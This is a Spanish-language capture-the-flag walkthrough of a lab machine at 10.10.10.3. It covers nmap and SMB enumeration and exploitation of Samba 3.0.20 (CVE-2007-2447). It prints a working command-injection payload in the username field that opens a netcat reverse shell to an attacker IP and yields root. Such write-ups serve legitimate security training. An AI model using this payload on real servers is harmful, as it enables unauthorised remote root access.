 ![[cc2f35f31baac4bb3bc5e0f7ad6a9df5.png]]

🧩 **Dificultad**: Easy (Linux)  
🎯 **Dirección IP**: `10.10.10.3`  
🛠️ **Modo**: Guided Mode

## 🔍 **Fase 1: Enumeración**

### ⚡ Escaneo Nmap

```bash
nmap -sS --top-ports 1000 10.10.10.3
```

![[dbf2a0bf1f7bead95039136c6fa1e9c3.png]]

Comprobamos puertos **abiertos** y vemos lo siguiente:

```bash
- 21/tcp → FTP
    
- 22/tcp → SSH
    
- 139 y 445/tcp → SMB (samba)
```

Luego usamos escaneo con scripts:

```bash
nmap -sS -sC -sV --top-ports 1000 10.10.10.3
```

![[fd1a116218a82e2d6c4669bbfaaeb1d7.png]]

Servicios identificados:

- 🎯 **FTP**: vsftpd 2.3.4 con login anónimo habilitado.
    
- 🔐 **SSH**: OpenSSH 4.7p1
    
- 📁 **SMB**: Samba 3.0.20 (en puertos 139 y 445)

### 📎 Enumeración FTP

Probamos el acceso anónimo al FTP:

```bash
ftp 10.10.10.3
Name: anonymous
Password: (enter)
```

![[0d7407bf0e9cafd7922661937af96e4d.png]]

Resultado: no hay contenido útil en el FTP.


### 📁 Enumeración SMB

Enumeramos los recursos compartidos SMB:

```bash
smbclient -L //10.10.10.3 -N
```

![[04cdb05aaaf68d4f56169088be86a597.png]]

Recursos mostrados:

- `print$`, `tmp`, `opt`, `IPC$`, `ADMIN$`

Nos conectamos al recurso `tmp`:


![[fd15d75bab37ffcc0cbc110a22280bed.png]]

Al listar su contenido:

```bash
dir
```

vemos archivos del sistema como `.X11-unix`, `vmware-root`, etc, pero no le haremos caso.


## 💣 **Fase 2: Explotación – CVE-2007-2447 (Samba)**

Samba 3.0.20 es vulnerable a ejecución de comandos a través del campo `username` si se usa `username map script` en su configuración.

📌 Verificado con searchsploit:

```bash
searchsploit samba 3.0.20
```

![[b8804b2f4cc0b45ccb59773f670a2775.png]]


Consultamos el exploit directamente:

```bash
searchsploit -x unix/remote/16320.rb
```

![[389afa6d93c9100fc1ca8b0718b509fb.png]]

En el código vemos que el exploit inyecta el payload en la variable `username`, usando una línea como:

![[b1dc0f80a9500b495f06488cb1181684.png]]

```bash
username = "/=`nohup " + payload.encoded + "`"
```

Esto confirma que podemos pasar comandos directamente por el campo `username`.

### ✅ PoC: Reverse Shell directamente tras login

Tras comprobar que se puede inyectar comandos por el campo `username`, nos conectamos directamente al recurso `tmp`:

```bash
smbclient //10.10.10.3/tmp -N
```

Y luego ejecutamos el siguiente payload desde la consola interactiva de `smbclient` :

![[314810ec21c24265d1b535c768699279.png]]


```bash
logon "/=`nohup nc -e /bin/sh 10.10.16.84 4444`"
```

![[354866c9b5d6419e66d602c9c6298152.png]]

Se observa que el reverse shell **sí se conecta** correctamente:

![[5689211c325ed2aeb244a93fdb9a8ac9 1.png]]

![[0dcc249faa5c400a0924f718b8b0d8c4.png]]

Esto indica que, aunque el comando `logon` parece fallar por timeout, **la conexión inversa llega** y se puede trabajar con la shell abierta.

### ✅ Shell funcional y obtención de flags

Una vez obtenida la shell de root:

![[e052024d4baa37ccd06b6173fd2ff14a.png]]

## 📚 Conclusiones

- El acceso FTP anónimo no ofrece nada útil.
    
- El share `tmp` en SMB permite ejecutar comandos gracias a una vulnerabilidad en `username map script`.
    
- Basta con entrar anónimamente y usar `logon "payload"` desde dentro del cliente interactivo.
    
- Aunque el payload con `nc -e` muestre `NT_STATUS_IO_TIMEOUT`, **la conexión puede ser válida** si se observa con `nc -lvnp`.
    
- Acceso root sin autenticación → se capturan ambas flags directamente.


## 📁 Recursos y exploits

- ExploitDB → [16320.rb](https://www.exploit-db.com/exploits/16320)
    
- Blog técnico → [amriunix CVE-2007-2447](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/)
    
- Shell cheat sheet → [Pentestmonkey Reverse Shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


-----------
## 🧱 Task adicional:

*Con una shell como root, podemos investigar por qué falló el exploit de VSFTPD. Nuestro escaneo inicial con `nmap` mostró cuatro puertos TCP abiertos. Pero si ejecutamos `netstat -tlnp` en la máquina víctima, veremos que hay **muchos más puertos escuchando**, incluso en `0.0.0.0` y en la IP externa de la máquina, por lo que **deberían ser accesibles desde fuera**.  

*¿Qué debe de estar bloqueando la conexión a estos puertos?*

![[fb1b7cb824aac09c31fcc1398de50c0f.png]]

## ¿Por qué falla el exploit de vsftpd?

Aunque vsftpd 2.3.4 es una versión con backdoor conocido, **el exploit no funciona en esta máquina**. La razón puede deberse a que hay otros puertos abiertos **localmente**, pero no accesibles desde el exterior.

### ✅ Respuesta correcta: `firewall`

Aunque hay puertos en escucha en la máquina víctima, **desde fuera** sólo vemos 4 porque el **firewall (como `iptables`) los está filtrando**. Es decir: están técnicamente abiertos, pero no accesibles remotamente.

Este firewall local puede estar limitando las conexiones entrantes desde el exterior, impidiendo la explotación de ciertos servicios como vsftpd.


## 🧪 Task 10: ¿Qué puerto se abre al activar el backdoor de VSFTPD?

Cuando se activa el backdoor de **vsftpd 2.3.4**, comienza a escuchar en el puerto:

![[3397092759f4b9b36e85ae73304f598b.png]]

Como nos da la info en el link de la web de la tarea anterior: 

https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd

![[659f498d76f31e9d9ba6dc3316d5502c.png]]